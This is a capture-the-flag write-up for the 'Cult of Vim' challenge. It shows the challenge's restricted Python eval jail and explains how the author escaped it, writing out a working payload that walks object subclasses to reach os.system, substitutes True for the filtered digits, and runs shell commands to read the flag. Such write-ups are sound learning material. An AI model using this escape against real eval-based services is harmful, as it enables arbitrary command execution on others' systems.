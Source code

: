 Title: Cult of Vim

Description:
```
I thought exiting Vim was hard enough... now I can't even exit Python??

Your goal is to get a shell, good luck!

nc alpha.8059blank.ml 7002
nc beta.8059blank.ml 7002

Author: Lucas
```

Given files: [vim.py](https://github.com/Coder-Here/HACK-AC-2022-CTF/blob/main/Misc/Cult%20of%20Vim/vim.py "vim.py")

Given hints: Dictionary comprehension might help with the number blacklist

vim.py:

```python
print("You can't even exit()... hehehe...")

filter = '0123456789'
while True:
    print('>', end=' ')
    inp = input()
    if any([True for l in inp if l in filter]):
        print('no')
        continue
    try:
        print(eval(inp, {'__builtins__': {}}))
    except Exception as e:
        print(e)
```

This is similar to the Church of Emacs challenge, but \_\_builtins__ cannot be used, so \_\_import__ cannot be used also. Also, numbers are also removed. In the hint, we can use dictionary comprehension to bypass the number filter, but I got a better method, ```True = 1``` in python, so we can just use 'True' to replace numbers.

Some websites that helped me:

[Explanation on how to use eval() vulnerability](https://nedbatchelder.com/blog/201206/eval_really_is_dangerous.html)

[Explanation on how to use os.\_wrap_close exploit](https://blog.p6.is/Python-SSTI-exploitable-classes/#Using-os-wrap-close)

My main payload was this:

```''.__class__.mro()[True].__subclasses__()[(True+True)*(True+True)*(True+True)*(True+True)*(True+True)*(True+True+True+True)+(True+True)*(True+True)*(True+True)*(True)+True].__init__.__globals__['system']('<SHELL COMMAND>')```

So first I did 'ls' to list all files in the directory, and then I used 'cat' to get the flag.

![image](https://user-images.githubusercontent.com/63996033/199573466-4480136a-ff7d-49b3-a44d-35eaa2faca4e.png)

We got our flag.

Flag: ACSI{:q_was_easier...}
